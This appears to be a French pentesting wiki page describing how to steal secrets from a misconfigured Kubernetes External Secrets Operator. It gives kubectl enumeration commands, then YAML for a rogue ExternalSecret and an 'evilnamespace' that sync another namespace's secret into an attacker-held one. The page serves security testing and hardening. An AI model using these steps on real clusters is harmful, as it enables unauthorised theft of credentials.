 # External Secret Operator

**L'auteur original de cette page est** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Cette page donne quelques indications sur la façon dont vous pouvez réussir à voler des secrets d'un ESO mal configuré ou d'une application qui utilise ESO pour synchroniser ses secrets.

## Avertissement

La technique montrée ci-dessous ne peut fonctionner que lorsque certaines conditions sont remplies. Par exemple, cela dépend des exigences nécessaires pour permettre à un secret d'être synchronisé sur un namespace que vous possédez / avez compromis. Vous devez le découvrir par vous-même.

## Prérequis

1. Un accès dans un cluster kubernetes / openshift avec des privilèges d'administrateur sur un namespace
2. Accès en lecture sur au moins ExternalSecret au niveau du cluster
3. Déterminez s'il y a des étiquettes / annotations ou une appartenance à un groupe requises qui permettent à ESO de synchroniser votre secret. Si vous avez de la chance, vous pouvez voler librement tout secret défini.

### Collecte d'informations sur l'existant ClusterSecretStore

En supposant que vous avez un utilisateur qui a suffisamment de droits pour lire cette ressource ; commencez par lister d'abord les _**ClusterSecretStores**_ existants.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Supposons que vous ayez trouvé un ClusterSecretStore nommé _**mystore**_. Continuez en énumérant son externalsecret associé.
```sh
kubectl get externalsecret -A | grep mystore
```
_Cette ressource est limitée à un espace de noms, donc à moins que vous ne sachiez déjà quel espace de noms rechercher, ajoutez l'option -A pour rechercher dans tous les espaces de noms._

Vous devriez obtenir une liste d'externalsecret définis. Supposons que vous ayez trouvé un objet externalsecret appelé _**mysecret**_ défini et utilisé par l'espace de noms _**mynamespace**_. Rassemblez un peu plus d'informations sur le type de secret qu'il contient.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

À partir de là, vous pouvez obtenir le nom d'un ou plusieurs noms de secret (comme défini dans la ressource Secret). Vous obtiendrez une sortie similaire à :
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Jusqu'à présent, nous avons :

- Nommer un ClusterSecretStore
- Nom d'un ExternalSecret
- Nom du secret

Maintenant que nous avons tout ce dont nous avons besoin, vous pouvez créer un ExternalSecret (et éventuellement patcher/créer un nouveau Namespace pour respecter les prérequis nécessaires pour synchroniser votre nouveau secret) :
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Après quelques minutes, si les conditions de synchronisation étaient remplies, vous devriez pouvoir voir le secret leaké dans votre espace de noms.
```sh
kubectl get secret leaked_secret -o yaml
```
## Références

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}

